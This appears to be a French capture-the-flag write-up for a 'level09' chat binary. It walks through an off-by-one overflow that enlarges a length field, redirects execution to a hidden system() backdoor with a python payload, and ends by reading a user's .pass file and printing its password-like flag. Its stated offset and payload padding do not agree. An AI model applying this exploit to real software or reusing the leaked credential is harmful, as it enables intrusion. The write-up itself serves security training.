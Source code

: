Ce binaire s'apparente a un systeme de chat. 
En premier, il demande un username, puis, un message a envoyer. 
Le probleme se trouve dans la fonction "set_username". Dans la structure "save" un buffer
de 40 bytes est prevu pour stocker le username. Or, dans le fonction set_username, une sorte
de strcpy manuel est effectue :
    
      i = 0;
      while (i <= 40 && buf[i] != '\0')
      {
        save->username[i] = buf[i];
        i++;
      }
      
Le probleme est qu'il va y avoir 41 iterations et non 40 ! Nous allons donc pouvoir deborder
sur la variable se trouvant apres username[40] dans la structure save. En l'occurence, "length". 
Cette variable length est utilise pour la fonction "set_msg". En effet, un strncpy est effectue :

        strncpy(save->msg, buf, save->length);

"buf" contient le message rentre par l'utilisateur. Les caracteres dans ce dernier seront copies autant
de fois que la valeur de length. Cependant, nous pouvons maintenant agrandir cette valeur length.
Dans la mesure ou nous pouvons reecrire un byte de plus que prevu, cela signifie que nous pouvons 
passer au maximum 255 a la variable length. 

Une fonction cachee rentre egalement en jeu. la fonction "secret_backdoor", qui execute la commande que nous lui passerons, via system().

Il nous faut donc son adresse :

    $ gdb level09
    $ start
    $ p &secret_backdoor
    => 0x55555555488c
    
Puis trouver l'offset necessaire a l'overwrite de EIP pour y ecrire l'adresse de secret_backdoor.

    python -c "print('A'*40 + '\xce' + 'A'*286 + 'B'*8 )" > /tmp/x

    Program received signal SIGSEGV, Segmentation fault.
    0x424242424242 in ?? ()
    
L'offset est de 268 si on utilise la valeur \xce dans length.

Voici notre paylaod final :

    python -c "print('A'*40 + '\xce' + 'A'*286 + '\x8c\x48\x55\x55\x55\x55')" > /tmp/x
    
    
    $ whoami
    end
    $ cat /home/users/end/.pass
    j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

